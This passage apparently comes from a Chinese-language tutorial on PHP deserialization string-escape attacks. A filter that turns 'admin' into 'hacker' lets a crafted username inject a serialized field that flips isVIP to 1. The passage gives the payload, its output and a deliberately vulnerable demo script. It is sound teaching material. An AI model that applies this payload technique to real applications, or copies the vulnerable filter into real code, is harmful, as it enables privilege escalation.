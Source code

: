 ```php
$a_seri = serialize($a);
$a_seri_filter = filter($a_seri);
echo $a_seri;
echo '------------------------------------------------------------';
echo $a_seri_filter;
?>
```

输出结果为

```php
O:4:"user":3:{s:8:"username";s:282:"adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;}

O:4:"user":3:{s:8:"username";s:282:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;}
```

我们可以数一下hacker的数量，一共是47个hacker，共282个字符，正好与前面282相对应。

后面的注入子串也正好完成了逃逸。

反序列化后，多余的子串会被抛弃

我们接着将这个序列化结果反序列化，然后将其输出，完整代码如下：

```php
<?php
class user{
    public $username;
    public $password;
    public $isVIP;

    public function __construct($u,$p){
        $this->username = $u;
        $this->password = $p;
        $this->isVIP = 0;
    }
}

function filter($s){
    return str_replace("admin","hacker",$s);
}

$a = new user('adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}','123456');
$a_seri = serialize($a);
$a_seri_filter = filter($a_seri);
$a_seri_filter_unseri = unserialize($a_seri_filter);

var_dump($a_seri_filter_unseri);
?>
```
